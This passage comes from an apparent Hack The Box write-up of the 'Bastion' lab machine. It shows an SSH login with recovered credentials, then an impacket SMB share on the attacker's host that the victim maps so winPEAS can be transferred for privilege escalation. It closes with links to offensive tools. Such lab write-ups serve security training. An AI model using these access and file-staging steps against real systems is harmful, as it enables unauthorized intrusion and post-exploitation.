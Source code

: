 Looks like the creds are valid. We can now use them to get a shell through the exposed SSH service.

```bash
$ ssh L4mpje@10.10.10.134
L4mpje@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje
```

## Privilege Escalation

The first thing I like to do whenever I get a low privilege shell on a host is to run [winPEAS][linpeas]. There are a number of ways I could use to get the executable over to the victim host, but I decided to use impacket's `smbserver.py` to set up an SMB share that I could connect to. This just makes it easy to transfer files back and forth from the host without long-winded PowerShell commands.

### Setting Up An SMB Share

First step is to start the SMB share using impacket.

```bash
$ impacket-smbserver kali . -smb2support -user kali -password kali
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then connect to it from the victim machine.

```cmd
l4mpje@BASTION C:\Users\L4mpje\Desktop>net use Z: \\10.10.14.29\kali /user:kali kali
Z: has a remembered connection to \\192.168.1.74\Backups. Do you
want to overwrite the remembered connection? (Y/N) [Y]: Y
The command completed successfully.

l4mpje@BASTION C:\Users\L4mpje\Desktop>dir Z:\
 Volume in drive Z has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of Z:\

01-06-2021  22:56                85 link.sh
21-05-2021  04:07             2.030 tmp.xml
01-06-2021  23:15         1.678.336 winPEASx64.exe
               3 File(s)      1.680.451 bytes
               0 Dir(s)               0 bytes free
```


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[smbmap]: https://github.com/ShawnDEvans/smbmap
[cpass]: https://adsecurity.org/?p=2288
[Bloodhound]: https://github.com/BloodHoundAD/BloodHound
[Bloodhound.py]: https://github.com/fox-it/BloodHound.py
[cme]: https://github.com/byt3bl33d3r/CrackMapExec
[mremoteng-decrypt]: https://github.com/kmahyyg/mremoteng-decrypt